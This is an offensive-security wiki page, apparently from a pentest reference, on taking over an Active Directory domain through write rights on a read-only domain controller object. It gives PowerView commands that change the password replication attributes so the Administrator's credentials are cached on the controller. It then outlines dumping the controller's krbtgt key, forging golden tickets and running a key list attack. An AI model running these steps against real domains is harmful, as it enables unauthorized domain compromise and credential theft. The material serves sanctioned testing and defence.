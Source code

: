 # Rights on RODC object

With administrative control over the [RODC](../domain-settings/rodc.md) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.

{% hint style="info" %}
For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:

* `GenericWrite`
* `GenericAll` / `FullControl`
* `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
* `Owns` (c.f. `WriteDacl`)
* `WriteOwner` (i.e. the attacker can obtain `Owns` -> `WriteDacl` -> other permissions)
* `WriteProperty` against the `msDS-RevealOnDemandGroup`attribute in conjunction with another primitive to gain privileged access to the host. `WriteProperty` against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this [PowerView python package](https://github.com/aniqfakhrul/powerview.py) (Python) can be used to modify the LDAP attribute.

<pre class="language-bash"><code class="lang-bash"><strong>powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
</strong>
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
#Then, append the Allowed RODC Password Replication Group group
<strong>PV > Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
</strong><strong>PV > Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'
</strong>
#If needed, remove the admin from the msDS-NeverRevealGroup attribute
<strong>PV > Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup
</strong></code></pre>

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) (PowerShell) can be used for this purpose.

```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06" %}
